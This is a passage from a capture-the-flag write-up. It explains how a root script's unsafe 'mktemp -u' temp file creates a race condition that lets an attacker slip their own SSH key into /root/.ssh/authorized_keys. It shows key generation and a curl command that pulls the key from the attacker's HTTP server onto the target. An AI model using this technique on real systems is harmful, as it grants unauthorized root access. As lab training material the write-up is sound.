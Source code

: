 The script will create a name for a temporary file with [mktemp](https://www.gnu.org/software/autogen/mktemp.html#TOP), where the file name will have the prefix `/tmp/ssh-` and followed by 8 random characters.

The file is then created with `touch`, such that everyone is able to write on the file `umask 110` (by default the file permision is `666`, i.e. `110 110 110` in binary, which is then modified by the umask `001 001 000`, i.e. `110 110 110 - 001 001 000 = 110 110 110`, which is equal to rw-rw-rw-, or readable and writable by everyone.)

Next, it echoes the public key specified in the script in variable `key` to the file and eventually to `/root/.ssh/authorized_keys`.

Finally, it removes the file.

`checkFile` simply checks if the file exists & the file is a non-empty regular file.

`checkAdded` checks whether the SSH username is correctly added to `/root/.ssh/authorized_keys`.

### Exploiting Race Condition Vulnerability

When checking the [manual page](https://man7.org/linux/man-pages/man1/mktemp.1.html) for `mktemp`, option `-u` is considered unsafe. Researching this leads me to [this](https://unix.stackexchange.com/questions/539690/why-is-mktemp-u-considered-unsafe). `mktemp -u` may result in a race condition vulnerability, where two processes try to write to the same file at the same time and the last to write will be the winner as their changes will overwrite the changes made by the faster process.

So, what we can do is to create our own bash script that will try to write our own public SSH key to the file that starts with `ssh-` in `/tmp` directory.

Firstly, let's generate our own pair (public & private) SSH keys.

```
$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:rVYdi+YwiowY49qr892xar+wykDS1+FTLUteyqE7xwk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|         .       |
|      . = o .    |
| .   o B B o o   |
|+.. . E S = o    |
|++ + . * O       |
|o.. + = * .      |
|o+ ..+ *         |
|o+*++o=.         |
+----[SHA256]-----+
```

and upload it to the remote server by creating a python server on our local machine `python3 -m http.server 9999` and download it from the remote server with `cd /tmp && curl -O 10.10.14.24:9999/id_rsa.pub`.
